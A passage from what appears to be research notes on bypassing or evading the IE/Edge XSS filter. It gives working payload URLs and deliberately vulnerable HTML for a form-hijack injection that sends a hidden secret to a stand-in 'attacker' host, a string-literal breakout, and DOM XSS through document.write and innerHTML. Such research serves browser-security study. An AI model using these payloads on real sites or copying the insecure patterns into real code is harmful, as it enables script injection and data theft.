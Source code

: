 (when outside the form) [https://vulnerabledoma.in/bypass/form2?q=%3Cbutton%20form=f%3ECLICK%3Cform%20id=f%20action=https://attacker/](https://vulnerabledoma.in/bypass/form2?q%3D%253Cbutton%2520form%3Df%253ECLICK%253Cform%2520id%3Df%2520action%3Dhttps://attacker/)

```html
<div><button form=f>CLICK<form id=f action=https://attacker/</div>
<form action="form2">
<input type="hidden" name="secret" value="a09d3ef0">
</form>
```

# XSS filter for IE/Edge

## Items not subject to blocking

### XSS happening in string literals

supplement:

Previously there was a blocking condition for string literals. `location`Although it still partially remains, assignments to obviously attackable, which were previously blocked, are allowed, and there is almost no protection. It doesn't look like it's going to provide protection any more, so I've categorized it as non-blocking rather than bypass.

[https://vulnerabledoma.in/bypass/str_literal?q=%22%3Blocation='javascript\x3Aalert\x281\x29'//](https://vulnerabledoma.in/bypass/str_literal?q%3D%2522%253Blocation%3D%27javascript%255Cx3Aalert%255Cx281%255Cx29%27//)

```html
<script>var q="";location='javascript\x3Aalert\x281\x29'//"</script>
```

### All DOM based XSS

[https://vulnerabledoma.in/bypass/dom_docwrite#%3Cimg%20src=x%20onerror=alert(1)%3E](https://vulnerabledoma.in/bypass/dom_docwrite%23%253Cimg%2520src%3Dx%2520onerror%3Dalert(1)%253E)

```html
<script>
hash=location.hash.slice(1);
document.write(decodeURIComponent(hash));
</script>
```

[https://vulnerabledoma.in/bypass/dom_innerhtml#%3Cimg%20src=x%20onerror=alert(1)%3E](https://vulnerabledoma.in/bypass/dom_innerhtml%23%253Cimg%2520src%3Dx%2520onerror%3Dalert(1)%253E)

```html
<body>
<script>
hash=location.hash.slice(1);
document.body.innerHTML=decodeURIComponent(hash);
</script>
</body>
```

